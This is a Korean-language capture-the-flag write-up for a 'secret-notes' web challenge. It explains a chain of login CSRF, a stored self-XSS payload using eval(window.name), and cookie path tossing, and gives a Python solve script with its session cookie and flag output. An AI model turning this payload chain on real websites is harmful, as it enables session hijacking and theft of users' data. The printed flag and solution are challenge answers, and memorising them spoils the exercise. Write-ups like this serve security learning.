 ```js
// attacker's page
window.open('/path', 'payload')

// name
1 onload=eval(window.name)
```

그리고 CSRF가 걸려있지 않다.

즉, 다른 도메인(attacker's page)에서도 로그인할 수 있다.

**시나리오** 

1. bot이 attacker계정으로 로그인

2. ???

3. bot이 admin 계정으로 로그인

---

풀기 위해서는 cookie의 구현을 알아야하는데

`document.cookie="key=name;domain=domain;path=/path";` 과 같이 설정할 수 있다.

만약 /A에 내 쿠키를 설정하면 /B에서는 쿠키가 적용되지 않고, /의 쿠키를 적용한다.

(그리고 우선순위는 자세할수록 높다.)

**최종 시나리오**

1. bot이 attacker의 계정으로 로그인, path=/profile

2. bot이 admin계정으로 로그인 --> /profile로 리다이렉트

3. Reflected XSS --> /notes에서 admin의 note를 읽어온다.

```py
# ex.py
import requests as req
import uuid

url = "https://secret-notes.1nf1n1ty.team"
uid = uuid.uuid4().hex
print(uid)

s = req.session()

res = s.post(f'{url}/register', data={"username":uid, "password":uid, "name":'1 onload=eval(window.name)'})
print(res.text)
res = s.post(f'{url}/login', data={"username":uid, "password":uid,})
print(res.text)

# 47005cce73e9469294a40fda0b318bcf
# session=eyJ1c2VybmFtZSI6IjQ3MDA1Y2NlNzNlOTQ2OTI5NGE0MGZkYTBiMzE4YmNmIn0.ZwGjeQ.0eyulCrarNn7mWCNTv1v62QwGU0
# ironCTF{CSRF_SELFX55_C00ki3_t05s1ng_co0kie_p4th_fL4g}
```
